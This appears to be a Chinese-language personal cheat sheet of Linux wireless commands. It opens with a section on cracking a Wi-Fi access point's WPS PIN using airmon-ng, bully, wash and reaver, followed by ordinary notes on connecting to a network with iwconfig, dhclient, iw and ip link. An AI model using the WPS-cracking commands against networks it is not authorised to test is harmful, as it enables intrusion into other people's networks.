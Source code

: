 pin creack
----------

```bash
ifconfig wlan0 down
# 这里会提示一些有可能被影响的进程 dhclient 和 wpa_supplicant
# 可以考虑将这些进程关闭
airmon-ng start wlan0
bully -e 热点名字 -v3 mon0

# 使用 reaver 的方法
wash -i mon0
reaver -a -S -vv -i mon0 -b `MAC`
```

通过命令行连接无线网, 简单版
----------------------------
来自 [connect-to-a-wireless-network-via-command-line](http://www.ghacks.net/2009/04/14/connect-to-a-wireless-network-via-command-line/)

```bash
#! /bin/bash
ifconfig wlan0
iwconfig wlan0 essid NETWORK_ID key WIRELESS_KEY
dhclient wlan0
```
`NETWORK_ID` 为无线名  
`WIRELESS_KEY` 搞不清楚,应该是密码吧. 默认为 16 进制的值,可以用 `s:WIRELESS_KEY` 来使用ascii

通过命令行连接无线网
--------------------

来自 [how-to-connect-to-wpawpa2-wifi-network](http://linuxcommando.blogspot.com/2013/10/how-to-connect-to-wpawpa2-wifi-network.html)

需要使用的工具
`yum install wpa_supplicant wireless-tools -y`

```bash
# 1. 查看你的无线设备名
$iw dev
phy#0
	Interface wlan0
		ifindex 3
		type managed
# 2. 检查无线设备是否启用 里面需要有个UP
$ ip link show wlan0
3: wlan0: (BROADCAST,MULTICAST) mtu 1500 qdisc noop state DOWN mode DEFAULT qlen 1000
    link/ether 74:e5:43:a1:ce:65 brd ff:ff:ff:ff:ff:ff
# 启用无线设备
$ ip link set wlan0 up

# 检查无线设备是否启用 里面有个UP
$ ip link show wlan0
3: wlan0: (NO-CARRIER,BROADCAST,MULTICAST,UP) mtu 1500 qdisc mq state DOWN mode DEFAULT qlen 1000
    link/ether 74:e5:43:a1:ce:65 brd ff:ff:ff:ff:ff:ff

# 3. 检查连接状态
$ /sbin/iw wlan0 link
Not connected.

# 4. 扫描网络
$ sudo /sbin/iw wlan0 scan
BSS 00:14:d1:9c:1f:c8 (on wlan0)
        ... 略过 ...
	freq: 2412
	SSID: Touch-me
```